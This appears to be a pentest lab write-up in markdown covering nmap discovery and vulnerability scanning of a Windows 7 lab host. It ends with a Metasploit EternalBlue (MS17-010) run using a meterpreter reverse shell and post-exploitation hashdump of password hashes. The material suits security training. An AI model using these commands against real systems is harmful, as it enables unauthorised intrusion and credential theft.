







# Part 1: Network Vulnerability assessmeent:
## Vulnerability scanning and enumeration

### Network discovery
This is a critical phase where we shall define the methodology required to use tools for network discovering. 

#### Assets:



##### Pentester:

```
ifconfig

IP:             192.168.57.10
netmask:        255.255.255.0
broadcast:      192.168.57.255
````

Then we are working under /24

Now let's discover the IPs that we have in our network:

```
sudo netdiscover -r 192.168.57.10 -i eth0
```

From which we obtain:


and

```
sudo nmap -sn 192.168.57.10/24
```


##### Victim's machine IP is `192.168.57.20`

### Targeted assess' discovery

OS detection:
```
sudo nmap -O 192.168.57.20
```



from where we can see that the Target machine's OS is Windows 7, but also we have the following tcp open ports:


| Port|        state|       service |
| ---- | ------ | -------| 
| 135  |       open  |      msrpc |
| 139   |      open   |     netbios-ssn |     
| 445    |     open    |    microsoft-dc |
| 554     |    open     |   rtsp |
| 2869     |   open      |  icslap |
| 10243     |  open       | unknown |


Active hosts discovery:
```
sudo nmap -sn 192.168.57.20/24 -oA host_active

sudo nmap -sn -PS22,80,443 192.168.57.20/24 -oA hosts_tcp_ping

sudo nmap -sn -PR 192.168.57.20/24 -oA hosts_arp
```


Services:
```
nmap -sV -sC -Pn -p 22,80,135,139,443,445,554,2869,3306,3389,10243 192.168.57.20 -oA service_scan
```


Vulnerability scripts:
```
nmap --script vuln 192.168.57.20

nmap --script vuln 192.168.57.20 -oA vulnerability_scan

nmap --script=smb-vuln* 192.168.57.20 -p 445 -oA smb_vuln_scan
```




```
sudo nmap -sS -sV -sC -O -p- -T4 --min-rate 1000 \
    --script="vuln and safe" \
    -oN full_audit.txt -oX full_audit.xml -oG full_audit.gnmap \
    192.168.57.20
```


```
python3 -c "
import xml.etree.ElementTree as ET
tree = ET.parse('full_audit.xml')
root = tree.getroot()
for host in root.findall('host'):
    ip = host.find('address').get('addr')
    print(f'Host: {ip}')
    for port in host.findall('.//port'):
        if port.find('state').get('state') == 'open':
            print(f'  Puerto {port.get("portid")}/{port.get("protocol")}')
"
```




### Controled explotation

# 1. Additional verification over MS17-010
# 2. SMB enumeration (no exploited) 

```
nmap --script smb-vuln-ms17-010 -p 445 192.168.57.20 -oN ms17_verify.txt
```


```
nmap --script smb-enum-shares,smb-enum-users,smb-os-discovery -p 445 192.168.57.20
```


### Metaexploit:

```
msfconsole

# Search exploit EternalBlue
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue

# Set options
set RHOSTS 192.168.57.20
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.57.10
set LPORT 4444

exploit
```


#### Enumeration post-explotation:
```
# Meterpreter:
sysinfo           # Información del sistema
getuid            # Ver privilegios
hashdump          # Extraer hashes de contraseñas
ps                # Listar procesos
screenshot        # Capturar pantalla
```






### Additional vulnerabilites scanning

1. Additional SMB vulnerabilities scanning


2. NetBIOS vulnerabilities


3. RPC scaning on port 135


4. UPnP services verifications (on ports 2869, 5357)



```
nmap -Pn --script "smb-vuln-*" -p 445 192.168.57.20 -oN smb_all_vulns.txt

sudo nmap --script nbstat -sU -p 137 192.168.57.20

nmap -Pn --script rpc-grind,msrpc-enum -p 135 192.168.57.20

nmap -Pn --script upnp-info -p 2869,5357 192.168.57.20
```


## 3. Configure OpenVAS/Greenbone for a credentialed scan against Windows system

>>> metasploit.md
